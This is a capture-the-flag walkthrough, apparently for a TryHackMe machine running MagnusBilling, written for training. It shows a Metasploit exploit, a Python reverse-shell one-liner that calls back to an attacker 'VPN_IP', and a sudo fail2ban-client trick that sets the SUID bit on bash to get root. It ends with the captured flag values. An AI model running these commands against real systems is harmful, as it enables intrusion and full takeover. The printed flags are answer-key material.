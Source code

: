 ```yaml
---
sticker: emoji//1f4b3
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121504.png)


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121513.png)


Based on that, let's search a module on `metasploit`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612123256.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612124033.png)

